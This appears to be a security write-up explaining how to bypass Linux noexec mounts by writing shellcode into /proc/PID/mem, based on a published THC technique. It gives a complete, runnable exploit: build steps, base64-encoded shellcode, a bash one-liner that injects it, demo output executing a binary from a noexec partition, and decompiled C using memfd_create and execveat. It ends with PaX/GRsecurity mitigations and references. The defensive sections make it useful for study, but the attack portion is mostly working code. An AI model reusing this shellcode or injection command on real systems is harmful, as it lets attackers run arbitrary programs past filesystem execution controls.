 ## noexec bypass

Userland execution without touching the disk has been existed in the hacking community for quite some time. The first paper on Userland exec was authored by the grugq in 2004. Since then, this technique has continuously evolved in various forms within the hacker community. A recent [write-up](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) by THC (The Hacker's Choice, an 0ldsk00l hacker community) "Bypassing noexec and executing arbitrary binaries" has taken this concept to a new level by simplifying the process of writing PoC/exploits that bypass partitions with the noexec flag. The root cause of this exploit vector lies in a change made to the Linux kernel in 2012, which [removed the restrictions on writing to /proc/PID/mem](https://lwn.net/Articles/476947/). THC's write-up provides a detailed explanation of how the [PoC](https://github.com/hackerschoice/memexec) work.

### Set up a RW partition with noexec flag
```
dd if=/dev/zero of=ro-partition.img bs=1M count=100
mkfs.ext4 ro-partition.img 
mkdir /mnt/ro-part
mount -o loop,noexec ro-partition.img /mnt/ro-part/
cd 
git clone https://github.com/hackerschoice/memexec.git
```
### Build the binary:
```
nasm -f elf64 -o memexec-bash-arg-env.o memexec-bash-arg-env.nasm && ld memexec-bash-arg-env.o
```

### Generate shellcode and encode it as base64:
```
ved@debian-vtest:/mnt/ro-part/memexec$ objdump -d a.out |grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' '|tr '\t' ' ' | sed 's/ //g' | xxd -r -p | base64 -w 0
SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==
```

## Use the base64 code and run it on Bash:
```
ved@debian-vtest:/mnt/ro-part/memexec$ memexec() { bash -c 'cd /proc/$$;exec 4>mem;base64 -d<<<SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==|dd bs=1 seek=$[$(cat syscall|cut -f9 -d" ")]>&4' "$@"; }
```

### Show time:
```
ved@debian-vtest:/mnt/ro-part/memexec$ cp /bin/id .
ved@debian-vtest:/mnt/ro-part/memexec$ ./id
-bash: ./id: Permission denied
ved@debian-vtest:/mnt/ro-part/memexec$ cat id |  memexec -- 
253+0 records in
253+0 records out
253 bytes copied, 0.000326824 s, 774 kB/s
uid=1000(ved) gid=1000(ved) groups=1000(ved),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

### C code based on help of decompilers
Base on the [output of decompilers](https://dogbolt.org/?id=47cc5eab-f919-4eea-a6f6-adabc90a1875#Hex-Rays=17). The C code is roughly look like:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <fcntl.h>

#define BUFFER_SIZE 1024
char buffer2[BUFFER_SIZE] = {0};

int main(int argc, char *argv[], char *envp[]) {
    // Find the start of the stack
    char **env = envp;
    char **arg = argv;
    char *last_arg = NULL;
    char *first_env = NULL;

    // Find the last argument and the first environment variable
    while (*arg) {
        last_arg = *arg;
        arg++;
    }
    first_env = env[0];

    // Create a memory file descriptor
    int memfd = memfd_create("kernel", 0);

    if (memfd < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
	}

    // Create a buffer for reading input
    char *buffer = buffer2;
    if (!buffer) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    ssize_t bytes_read;
    while ((bytes_read = syscall (SYS_read, STDIN_FILENO, buffer, BUFFER_SIZE)) > 0) {
        // Write data to the memory file descriptor
        if ( syscall(SYS_write, memfd, buffer, bytes_read) != bytes_read) {
        	syscall(SYS_exit, EXIT_FAILURE);
        }
    }

    if (bytes_read < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    // Prepare to execveat the program in memfd
    char *empty_path = ""; // AT_EMPTY_PATH
    char **new_argv = argv; // Use the original argv
    char **new_envp = envp; // Use the original envp

    // Execute the program in the memory file descriptor
    syscall (SYS_execveat, memfd, empty_path, new_argv, new_envp, 0);

    // If execveat fails
     syscall(SYS_exit, EXIT_FAILURE);
}
```
## Mitigation
PaX/GRsecurity is the only solution against this bypass technique. The vanilla Linux kernel may have the solution in the future.

| Exploit method | Mitigation |
|:-------------:|:-----------------------:|
| Overwrite /proc/*/mem | PaX/GRsecurity enabled /proc/*/mem restriction since the beginning (2012?) |
| memfd_* execution | 1) PaX/GRsecurity RBAC (doesn't require any policy) treat it as SHM_EXEC 2) PaX/GRsecurity TPE |

Prevention log:
```
Oct 31 15:50:37 newdevel kernel: [272707.761418] grsec: denied untrusted exec (due to not being in trusted group and file in non-root-owned directory) of / by /[perl:9099] uid/euid:1000/1000 gid/egid:1000/1000, parent /bin/bash[bash:9075] uid/euid:1000/1000 gid/egid:1000/1000
```

## Reference
* Bypassing noexec and executing arbitrary binaries https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries
* A /proc/PID/mem vulnerability https://lwn.net/Articles/476947/
* Execute ELF files without dropping them on disk https://github.com/nnsee/fileless-elf-exec
* userland exec for Linux x86_64 https://github.com/bediger4000/userlandexec
* The Design and Implementation of Userland Exec https://grugq.github.io/docs/ul_exec.txt
